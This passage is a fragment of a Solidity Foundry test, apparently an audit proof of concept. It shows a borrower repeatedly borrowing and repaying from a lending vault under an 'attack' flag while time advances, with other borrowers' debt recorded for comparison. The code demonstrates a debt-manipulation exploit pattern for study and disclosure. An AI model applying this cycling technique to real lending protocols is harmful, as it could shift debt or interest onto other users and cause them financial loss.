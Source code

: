 ```solidity

  {
  token.mint(cycleBorrower, collateralAmount);
  console.log("Cycle borrower Balance Before:", token.balanceOf(cycleBorrower));
  }
  vm.prank(cycleBorrower);
  token.approve(address(vault), collateralAmount);
  vm.prank(cycleBorrower);
  vault.deposit(cycleBorrower, collateralAmount);



  // Both borrowers take out initial loans
  uint256 borrowAmount = 50 ether;
  vm.prank(normalBorrower);
  vault.modifyCollateralAndDebt(normalBorrower, normalBorrower, normalBorrower, 0, int256(borrowAmount));
  vm.prank(normalBorrower2);
  vault.modifyCollateralAndDebt(normalBorrower2, normalBorrower2, normalBorrower2, 0, int256(borrowAmount));

  // Record initial state
  uint256 initialDebtNormal = vault.virtualDebt(normalBorrower);
  uint256 initialDebtNormal2 = vault.virtualDebt(normalBorrower2);
  uint256 initialDebtCycle = vault.virtualDebt(cycleBorrower);

  console.log("Initial state:");
  logPoolState(vault);

  // Simulate passage of time and borrow-repay cycles
  uint256 cycles = 10;
  uint256 timeBetweenCycles = 1 hours;

  // Mint a large amount of WETH to this contract to cover all potential debts
  mockWETH.mint(address(this), 1000 ether);
{

  for (uint256 i = 0; i < cycles; i++) {
      if(attack){
      vm.startPrank(cycleBorrower);

      vault.modifyCollateralAndDebt(cycleBorrower, cycleBorrower, cycleBorrower, 0, int256(borrowAmount));

      // Repay all debt
      uint256 currentDebt = vault.virtualDebt(cycleBorrower);

      if (currentDebt > 0) {
          mockWETH.transfer(cycleBorrower, currentDebt);
          mockWETH.approve(address(vault), currentDebt);
          vault.modifyCollateralAndDebt(cycleBorrower, cycleBorrower, cycleBorrower, 0, -int256(currentDebt));
      }

      console.log("Borrow and repay Cycle: #", i+1);

      vm.stopPrank();

      }
      // Advance time
      vm.warp(block.timestamp + timeBetweenCycles);
  }
}
```